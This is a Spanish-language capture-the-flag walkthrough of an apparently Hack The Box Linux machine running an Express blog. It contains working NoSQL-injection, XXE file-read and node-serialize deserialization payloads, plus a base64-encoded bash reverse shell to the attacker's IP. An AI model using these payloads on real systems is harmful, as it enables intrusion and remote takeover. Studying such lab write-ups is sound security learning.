import Banner from "../Banner.astro"
import bannerIMG from './banner.png'; 

<Banner image={bannerIMG} />

# Reconocimiento
Para empezar vamos a hacer un escaneo para ver que puertos tiene abiertos esta máquina y que servicios y versiones usan.

```bash
sudo nmap -T4 --min-rate 1000 -p- -sCV -oN nmap_report 10.10.11.139
```



Vemos que tiene 2 puertos abiertos, el 22 SSH y el 5000 que está corriendo un servidor web con Express como framework. Primero accederemos a este segundo puerto para ver el contenido de la página web.


Parece un blog simple, pero podemos ver un botón Login, vamos a ver que hay.



# Explotación
Si interceptamos la solicitud con Burpsuite y cambiamos el parámetro de Content-Type de application/x-www-form-urlencoded a application/json, nos dará un error que nos permitirá ver dónde se ubica este servidor.



Vemos que está en /opt/blog, esto puede ser útil en un futuro. Además en el panel de login si probamos un usuario aleatorio, nos da el error Invalid username, pero con el usuario admin no, por lo que ese si que sería válido. Podríamos probar una inyección NoSQL con estos parámetros:

```json
{  
"user": "admin",  
"password": {"$ne": null}  
}

// Además de cambiar a application/json
```



Podemos ver que hemos conseguido acceder. Si intentamos subir un archivo cualquiera devuelve lo siguiente: Invalid XML Example: Example DescriptionExample Markdown Por lo cual tendremos que hacer una XXE Injection (XML External Entity). Vamos a intentar un LFI creando un XML malicioso que injecte un comando.

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<post>
<title>LFI Post</title>
<description>Read File</description>
<markdown>&file;</markdown>
</post>
```



Podemos ver que funciona correctamente, entonces como sabemos que el blog está en /opt/blog lo normal usando Express es que el archivo principal sea server.js por lo que lo comprobaremos.

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///opt/blog/server.js">
]>
<post>
<title>Server Code</title>
<description>Read File</description>
<markdown>&file;</markdown>
</post>
```

Nos devuelve lo siguiente:

```javascript
const express = require('express')
const mongoose = require('mongoose')
const Article = require('./models/article')
const articleRouter = require('./routes/articles')
const loginRouter = require('./routes/login')
const serialize = require('node-serialize')
const methodOverride = require('method-override')
const fileUpload = require('express-fileupload')
const cookieParser = require('cookie-parser');
const crypto = require('crypto')
const cookie_secret = "UHC-SecretCookie"
//var session = require('express-session');
const app = express()

mongoose.connect('mongodb://localhost/blog')

app.set('view engine', 'ejs')
app.use(express.urlencoded({ extended: false }))
app.use(methodOverride('_method'))
app.use(fileUpload())
app.use(express.json());
app.use(cookieParser());
//app.use(session({secret: "UHC-SecretKey-123"}));

function authenticated(c) {
    if (typeof c == 'undefined')
        return false

    c = serialize.unserialize(c)

    if (c.sign == (crypto.createHash('md5').update(cookie_secret + c.user).digest('hex')) ){
        return true
    } else {
        return false
    }
}


app.get('/', async (req, res) => {
    const articles = await Article.find().sort({
        createdAt: 'desc'
    })
    res.render('articles/index', { articles: articles, ip: req.socket.remoteAddress, authenticated: authenticated(req.cookies.auth) })
})

app.use('/articles', articleRouter)
app.use('/login', loginRouter)


app.listen(5000)
```

Podemos ver que usa el paquete de node-serialize el cual si buscamos un poco econtraremos que es vulnerable. Vemos que se usa para deserializar la cookie. Entonces si le pasamos un código serializado de JavaScript malicioso, podremos obtener lo que se llama un IIFE (Immediately Invoked Function Expression) en consecuencia ejecución arbitraria de código. Para comprobar si esto es viable, crearemos un código simple para hacernos un ping a nosotros mismos. Para ello usaremos este código:

```bash
serialize{"rserializece":"_$$ND_FUNC$$_function (){require('child_process').exec('ping -c 1 10.10.14.16', function(error, stdout, stderr) { console.log(stdout) });}()"}
```

Y URL Encoded quedaría así:

```
%7b%22%72%63%65%22%3a%22%5f%24%24%4e%44%5f%46%55%4e%43%24%24%5f%66%75%6e%63%74%69%6f%6e%20%28%29%7b%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%70%69%6e%67%20%2d%63%20%31%20%31%30%2e%31%30%2e%31%34%2e%31%36%27%2c%20%66%75%6e%63%74%69%6f%6e%28%65%72%72%6f%72%2c%20%73%74%64%6f%75%74%2c%20%73%74%64%65%72%72%29%20%7b%20%63%6f%6e%73%6f%6c%65%2e%6c%6f%67%28%73%74%64%6f%75%74%29%20%7d%29%3b%7d%28%29%22%7d
```

Entonces esa sería nuestra Auth Cookie maliciosa, simplemente la ponemos en el navegador:



Al ponernos a la escucha con tcpdump por la interfaz tun0 recibimos el pin.



Por lo que ya podríamos crear una revshell.

```bash
echo -n 'bash -i >& /dev/tcp/10.10.14.16/4444 0>&1' | base64
```

Quedaría algo así:

```
YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTYvNDQ0NCAwPiYx
```

Ahora lo metemos a la cookie añadiendo el decodeado y el bash para que lo ejecute:

```bash
echo -n YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTYvNDQ0NCAwPiYx | base64 -d | bash
```

```json
{"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('echo -n YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTYvNDQ0NCAwPiYx | base64 -d | bash', function(error, stdout, stderr) { console.log(stdout) });}()"}
```

Y URL Encoded quedaría así:

```
%7b%22%72%63%65%22%3a%22%5f%24%24%4e%44%5f%46%55%4e%43%24%24%5f%66%75%6e%63%74%69%6f%6e%20%28%29%7b%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%65%63%68%6f%20%2d%6e%20%59%6d%46%7a%61%43%41%74%61%53%41%67%50%69%59%67%4c%32%52%6c%64%69%39%30%59%33%41%76%4d%54%41%75%4d%54%41%75%4d%54%51%75%4d%54%59%76%4e%44%51%30%4e%43%41%77%50%69%59%78%20%7c%20%62%61%73%65%36%34%20%2d%64%20%7c%20%62%61%73%68%27%2c%20%66%75%6e%63%74%69%6f%6e%28%65%72%72%6f%72%2c%20%73%74%64%6f%75%74%2c%20%73%74%64%65%72%72%29%20%7b%20%63%6f%6e%73%6f%6c%65%2e%6c%6f%67%28%73%74%64%6f%75%74%29%20%7d%29%3b%7d%28%29%22%7d
```

Si lo pasamos a la cookie y nos ponemos a la escucha en el puerto 4444 obtendremos la shell.



Deberemos de dar permisos para poder abrir `/home/admin` con:

```bash
chmod +x /home/admin
```

Y ya podremos ver la user flag:


# Escalada de privilegios

Recordando que tenía MongoDB gracias al /etc/passwd podemos intentar listar los puertos abiertos internos de la máquina con:

```bash
ss -tln
```



Efectivamente, vemos que el puerto 27017 está abierto. Si usamos mongo para listar DB y todo lo que contiene...



Vemos que hay una contraseña de un usuario admin, por lo que la copiamos: 

```
IppsecSaysPleaseSubscribe
```

Si hacemos un `sudo -l` nos devuelve con la contraseña:



Y ya simplemente hacemos sudo su y obtenemos la root flag:

